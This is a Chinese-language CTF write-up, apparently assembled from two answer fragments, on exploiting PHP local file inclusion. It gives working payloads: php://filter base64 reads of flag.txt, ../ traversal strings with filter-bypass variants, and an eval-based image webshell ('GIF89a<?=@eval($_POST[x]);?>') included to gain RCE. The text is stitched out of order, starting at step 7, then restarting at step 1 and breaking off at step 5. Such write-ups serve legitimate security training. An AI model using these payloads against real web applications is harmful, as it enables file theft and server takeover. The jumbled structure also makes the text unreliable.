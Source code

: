    ```
   php://filter/read=convert.base64-encode/resource=../../../../flag.txt
   ```

   你会得到一串 Base64，解码即可看到 flag。
   （这个技巧同样适用于读 `.php` 源码，比如想看他到底怎么 include 的。）
7. 如果过滤了关键字
   – 过滤 `../` → 用双写 `....//` 或 URL 编码 `..%2f..%2f`
   – 过滤 `flag` → 用通配符 `fla?` 或 `fl*`（部分系统支持）
   – 过滤 `php://` → 尝试 data://、input://，或者短标签 `pHp://` 大小写绕过
   总之**它过滤什么，就针对什么做变形**，直到路径能出现回显。
8. 进阶：把“读文件”升级成“RCE”
   如果题目允许上传（比如再给你一处“上传头像”功能），可以：

   1. 传一张带 PHP 码的图片马：
      `GIF89a<?=@eval($_POST[x]);?>`
   2. 用刚才的包含点去 `include` 这个图片：
      `../../../../upload/2023xxx/shell.gif`
   3. 拿到 WebShell，想读什么读什么，甚至 cat /root/flag.txt。

---

一句话总结思路
“先找输入→探路径→测过滤→目录遍历到根→伪协议兜底→上传就升 RCE”。

把这条流水线背下来，再遇到“包含类” Web 题，5 分钟就能自己打出 flag。祝你下一次秒出题！

**

下面把“这题”拆成一条一条**可复现的思路**，你只要按顺序往下试，就能自己打出 flag。整套方法论不仅适用于本题，也适用于所有“明显存在文件包含入口”的 CTF Web 题。

---

1. 先找“输入点”

   - 页面里有一个表单／GET 参数／POST 参数，让你“提交食材名”“选择模板”“language=”之类——**凡是你能控制字符串、最后又出现在返回包里的，都是潜在输入点**。
   - 本题输入点就是提示里的
     “请输入食材名（如 food1.webp）”。
2. 用“正常值”探路

   - 先按它给的例子输：`food1.webp`
     目的：看系统怎么回显、报错，确认后端真的在“包含/读取”你给的文件。
   - 本题回显了
     `Warning: Unexpected character ... in /var/www/html/backpack/food1.webp on line 618`
     关键信息：
     – 完整路径被拼出来 → 知道工作目录是 `/var/www/html/backpack/`
     – PHP 把它当 PHP 解析 → 说明用的是 `include/require` 这类函数
     这两条信息已经足够断定“存在文件包含”。
3. 判断过滤
   把下面几种字符分别单独测试，看会不会被拦截或转义：
   `../  ..\  ..  /  \  %2f  %5c  ..%2f  ..%5c`
   如果都能原样出现在报错路径里，就证明**没有过滤**，可以直接目录遍历。
4. 计算“跳几层”到根
   已知工作目录：
   `/var/www/html/backpack/`
   想读到根目录下的 `/flag.txt`，需要向上跳 3 层就到 `/`：
   `backpack/` → `html/` → `www/` → `/`
   所以用 3 个 `../` 即可；为了保险可以多写一个（`../../../../flag.txt`），反正到了根以后再 `../` 还是根。
5. 第一次 payload
